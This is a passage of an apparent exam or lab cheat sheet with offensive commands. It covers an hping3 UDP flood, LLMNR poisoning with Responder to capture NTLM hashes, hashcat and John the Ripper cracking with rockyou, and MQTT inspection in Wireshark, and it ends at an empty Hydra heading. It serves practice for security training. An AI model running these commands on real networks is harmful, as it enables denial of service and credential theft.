 ### UDP Flood attack

`hping3 -2 -p 139 --flood 1.1.1.6`

> \-2 is for UDP
>
> \-p is port

### Identify IoT Message and its Length using capture.cap

* Filter .cap file on wireshark with 'MQTT' filter
* Select packet related to Publish Message
* Click on MQ Telemetry Transport Protocol -> Header Flags -> Message Msg Len

or

* Click on MQ Telemetry Transport Protocol -> Publish Message -> Msg Len

## BCTextEncoder

### Decrypt the encoded secret and enter the decrpted text as the answer

Use BCTextEncoder to decrypt the encoded secret file, psw can be the same of SMB login

{% content-ref url="../tools/bctextencoder.md" %}
[bctextencoder.md](../tools/bctextencoder.md)
{% endcontent-ref %}

### LLMNR Poisoning NTML Hash cracking

Responder:  `responder -I eth0 -rdwv`

Copy the hash from responder to ntlmhash.txt

and crack it using Hashcat or John

## Hashcat

* `hashcat -m 0 -a 0 hash.txt passwordlist.txt -m 0`
* `hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt`

> MD5 hash mode -a 0:
>
> Dictionary attack mode hash.txt txt file containing hash in a compliant format passwordlist.txt: dictionary file containing passwords in plain text

## John the Ripper

* `john —format-raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`&#x20;
* `john /usr/share/responder/logs/SMB-NTLMv2-SSP-1.1.15.txt`

## Hydra
